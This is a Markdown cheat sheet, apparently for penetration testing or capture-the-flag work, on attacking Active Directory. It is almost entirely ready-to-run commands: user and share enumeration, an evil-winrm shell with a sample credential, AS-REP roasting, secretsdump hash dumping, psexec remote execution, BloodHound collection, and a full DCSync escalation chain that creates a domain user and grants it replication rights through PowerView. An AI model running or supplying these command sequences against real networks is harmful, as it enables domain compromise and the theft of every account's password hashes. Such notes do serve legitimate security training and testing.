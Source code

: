 # Active Directory

## Enumeration

Nmap: `sudo nmap -n -sV --script "ldap* and not brute" <IP>`

Enum4Linux: `enum4linux <IP>`

Kerbrute: `./kerbrute userenum -d <Domain Controller> --dc <Target IP> /<Wordlst>`

## SMB

If Port 5985 is OPEN, you may be able to access a shell with valid SMB Credentials

SMB Shell: `evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

SMB Connection: `smbclient \\<IP>\<Share> -U '<Username>'`

Check For Anonymous Access:

`smbmap -H <IP>`

`smbclient \\\\<IP>\<Share> -N`

`smbclient \\\\<IP>\\<Share> -c 'recurse;ls' -N`

## Impacket Scripts

AS-REP Roasting

GetNPUsers: 

`sudo python3 GetNPUsers.py <Domain Controller>/<Valid Username> -no-pass`

`sudo python3 GetNPUsers.py <Domain Controller>/ -dc-ip <IP> -request`

Hash Dump After DCSync

SecretsDump: `sudo python3 secretsdump.py <Domain Controller>/<New Username>@<IP>`

Remote PowerShell Connection

PsExec: `python psexec.py <Domain Controller>/<Username>:<Password>@<IP>`

## Bloodhound

Install: `sudo pip3 install bloodhound && wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.0.3/BloodHound-linux-x64.zip && unzip BloodHound-linux-x64.zip && mv BloodHound-linux-x64/BloodHound . && rm -rf BloodHound-linux-x64.zip BloodHound-linux-x64/`

Get Info: `bloodhound-python -d <Domain Controller> -u <Valid Username> -p <Password> -gc <Gloabl Catalog> -c all -ns <IP>`

Neo4j Console: `neo4j console`

# PowerView

Download: `curl -O https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1`

# DCSync Attack 

`net user <New Username> <New Password> /add /domain`

`net group "Exchange Windows Permissions" <New Username> /add /domain`

Import PowerView

`$pass = convertto-securestring '<New Password>' -AsPlainText -Force`

`$cred = New-Object System.Management.Automation.PSCredential('<Domain Controller>\<New Username>', $pass)`

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=<dc>,DC=<dc>" -PrincipalIdentity "<New Username>" -Rights DCSync`

# Extra Resources

[What is AS-REP Roasting?](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)

[Kuberos DCSync Attacks Explained](https://www.qomplx.com/kerberos_dcsync_attacks_explained/)

[PowerView 3.0 Tips & Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
